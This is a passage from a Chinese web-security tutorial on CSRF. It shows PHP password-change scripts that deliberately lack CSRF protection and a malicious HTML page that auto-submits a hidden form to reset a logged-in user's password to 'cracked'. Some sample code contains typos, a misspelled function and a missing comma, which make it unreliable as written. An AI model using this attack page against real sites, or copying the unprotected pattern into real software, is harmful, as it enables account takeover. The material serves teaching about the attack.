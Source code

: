 CSRF之攻击手段与影响
=================================================================
首先让我们来看一下针对`CSRF`漏洞实施的 **两种典型的攻击模式**。即 **“输入－执行”这种简单模式下的攻击手段** 以及
**中途包含确认页面时的攻击方法**。

### “输入－执行”模式的CSRF攻击
此处用更改密码页面作为“输入－执行”模式下关键处理的例子。以下`PHP`脚本展示了更改密码处理的概要。
```php
//代码清单：/45/45-001.php（登录脚本）

<?php   //用来确认用户已登录的脚本
    session_start();
    $id = @$_GET['id'];
    if(! $id) $id = 'yamada';
    $_SESSION['id'] = $id;
?>
<body>
已登录 (id:<?php echo
    htmlspecialchars($id, ENT_NOQUOTES 'UTF-8'); ?>) <br>
<a href="45-002.php">更改密码</a>
</body>
```
```php
//代码清单：/45/45-002.php（密码输入页面）

<?php
    session_start();
    //确认登录 省略
?>
<body>
<form action="45-003.php" method="POST">
新密码 <input name="pwd" type="password"><br>
<input type="submit" value="更改密码">
</form>
</body>
```
```php
//代码清单：/45/45-003.php（执行更改密码）

<?php
    function ex($s) {       //用于防范XSS的HTML转义及显示处理函数
        echo htmlspecialhars($s, ENT_COMPAT, 'UTF-8');
    }
    session_start();
    $id = $_SESSION['id'];  //取得用户名
    //确认登录 省略
    $pwd = $_POST['pwd'];   //取得用户密码
    //更改密码处理 将用户$id的密码更改为$pwd
?>
<body>
<?php ex($id); ?>
</body>
```
可见，密码在最后的`45-003.php`中被更改。然而，通过此脚本更改密码，还需要满足以下3个条件：
+ 使用`POST`方法请求45-003.php
+ 保持登录状态
+ 使用`POST`参数中的`pwd`指定新密码

而使浏览器发送满足以上条件的请求的攻击即为`CSRF`攻击。**下面就是用来实施`CSRF`攻击的`HTML`文件**。
```php
//代码清单：/45/45-900.html

<body onload="document.forms[0].submit()">
<form action="http://example.jp/45/45-003.php" method="POST">
<input type="hidden" name="pwd" value="cracked">
</form>
</body>
```
**这段代码为实施`CSRF`攻击的恶意网页的`HTML`源代码。攻击者将其置于互联网上，并在其中添加攻击对象网站
用户可能感兴趣的内容，以引诱网站的用户前来浏览**。

用户浏览此`HTML`时的情形如下：
1. 用户登录`example.jp`
2. 攻击者设下圈套。
3. 受害人浏览恶意网站而触发圈套。
4. 攻击者使用恶意网站中的`JavaScript`，使受害人的浏览器向攻击对象网站发送将密码变更为`cracked`的`POST`请求
5. 密码被更改

这种情况下，因为先前列举的变更密码所需条件都已满足，所以正规用户的密码就被成功更改为了`cracked`。

**攻击者在实际发动攻击时，为了使攻击显得隐蔽，通常会采用不可见的`iframe`来布置恶意网页。
此时，根据同源策略，从`iframe`的外层（恶意网页）无法读取到内层（攻击对象）的内容，因此，`CSRF`攻击虽然
能够以正规用户的权限恶意使用攻击对象网站中的关键处理，却无法获取网页中显示的内容**。




